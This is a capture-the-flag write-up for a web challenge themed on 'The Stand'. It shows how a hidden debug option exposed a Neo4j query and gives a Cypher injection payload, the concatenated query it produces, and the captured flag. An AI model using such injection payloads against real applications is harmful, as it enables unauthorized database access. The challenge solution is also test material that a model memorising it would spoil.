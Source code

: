# the_stand \[500 points\] (1 solve)

> Some people are good people and have friends. Randall Flagg is evil, with no friends, but he has the knowledge.

This challenge consists of solely a web interface, which we can deduce is powered by Express and nginx (presumably for load balancing) from response headers. Also, as you might be able to tell from the title, the entire challenge uses names and quotes from Steven King's 1978 dark fantasy novel "The Stand."

> [!NOTE]
> This problem was mainly solved by Aayush, but was also worked on a lot by Nate, Alex, Ryan, Lauren, and Eamon.

## The Attack Vector

The main functionality of this challenge is to request a list of people and query these people to see who their friends are. As you might be able to tell, the flag is somehow related to the character Randall Flagg, who doesn't have friends, but he has "the knowledge" (presumably the flag). If we can somehow query more information about Randall Flag, we might be able to gain more information which would allow us to find the flag.

To start, we can query the list of people at `/people` and get a list of people and their quotes.

<details>
<summary>People and their quotes</summary>

```
Data for Stu Redman:
{"message":"Stu Redman says: Here you go, I lost my appetite all of a sudden.","friends":["Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny.","Abagail Freemantle says: I have sinned in pride. So have you all. But that's past now."]}

Data for Abagail Freemantle:
{"message":"This person has no friends (sad!)"}

Data for Frances Goldsmith:
{"message":"Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny.","friends":["Harold Lauder says: If you go with me, I’ll treat you like a queen. No, better than a queen. Like a goddess.","Abagail Freemantle says: I have sinned in pride. So have you all. But that's past now."]}

Data for Randall Flagg:
{"message":"This person has no friends (sad!)"}

Data for Larry Underwood:
{"message":"Larry Underwood says: Baby, can you dig your man?","friends":["Harold Lauder says: If you go with me, I’ll treat you like a queen. No, better than a queen. Like a goddess.","Frances Goldsmith says: Harold, I don't think I'm ever gonna get these calluses off my fanny."]}

Data for Harold Lauder:
{"message":"This person has no friends (sad!)"}

Data for Glen Bateman:
{"message":"Glen Bateman says: The law is an imperfect mechanism. It doesn't operate at all when there is no enforcement.","friends":["Stu Redman says: Here you go, I lost my appetite all of a sudden."]}
```

</details>

<br>

However, this doesn't give us any information about the challenge. 

When you open the inspector, we can see a clue in the HTML that will help us understand the challenge better:

```html
    <!-- Form to query a character's friends -->
    <h2>Find Friends</h2>
    <form id="friend-form">
        <label for="first-name">First Name:</label>
        <input type="text" id="first-name" placeholder="First Name" required>
        <br>
        <label for="last-name">Last Name:</label>
        <input type="text" id="last-name" placeholder="Last Name" required>
        <br>
        <!--
        <label for="debug">Debug:</label>
        <input type="checkbox" id="debug" name="debug">
        -->
        <button type="submit">Get Friends</button>
    </form>
    <div id="results"></div>
```

Uncommenting the debug checkbox now appends `&debug=true` to our query, and returns a lot of information: 

```json
{
    "message": "This person has no friends (sad!)",
    "query": "MATCH (p:Person (firstName: 'Randall', lastName: 'Flagg')) OPTIONAL MATCH (p)-[:FRIEND]->(f) RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag\n"
}
```

<details>
<summary>Formatted version</summary>

```
MATCH (p:Person {firstName: 'Randall', lastName: 'Flagg'})
OPTIONAL MATCH (p)-[:FRIEND]->(f)
RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag
```

</details>

<br>

Essentially, we can now see that our input is being executed in a Cypher query, which is querying a Neo4j database that presumably contains the flag. Given that the `firstName` is directly inserted into the string (and not sanitized), we can infer that we need to create a Cypher injection to reveal information about Randall Flagg that we aren't currently able to see.

It is important to note that, at the moment, the server is matching for the *friends* of Randall Flagg and not Randall Flagg's data.

## Execution

From this information, we know that we need to return Randal Flagg's data and not his friend's, since he has no friends but he has "the knowledge." To build our injection, we can break out of the current input with an apostrophe and construct a query. We need to make sure to add a comment (`//`) after that to force the database to ignore the invalid end part of the query added by the server.

So, this is our attack payload:

```cypher
Randall' }) OPTIONAL MATCH (n) RETURN n.tag as personTag, n.firstName as firstName, n.lastName as lastName, n.tag as friendTag //
```


When it's all formatted correctly and concatenated on the server, the query looks something like this:

> [!NOTE]
> I've added a couple of newlines between the injected query and the comment just for viewing purposes.

```
MATCH (p:Person {firstName: 'Randall'})
OPTIONAL MATCH (n)
RETURN n.tag AS personTag, n.firstName AS firstName, n.lastName AS lastName, n.tag AS friendTag


// ', lastName: 'Flagg'}) OPTIONAL MATCH (p)-[:FRIEND]->(f) RETURN p.tag AS personTag, f.firstName AS firstName, f.lastName AS lastName, f.tag AS friendTag
```


Now, instead of returning the friends of Randall Flagg, the database returns the actual tag (message) of Randall. 

![solve screen](/knowledge/the_stand/solution/solve.png)

Flag:
```
ictf{People_who_try_hard_to_do_the_right_thing_always_seem_mad}
```

## Conclusion

This challenge honestly wasn't *that* hard, or, at least, it was significantly easier than Boing. However, I suspect that none of the other teams solved this because of the need to find the debug mode: the combination of the new category "knowledge" and the references to passages from the book "The Stand" leads you to believe that OSINT is required to solve the challenge.  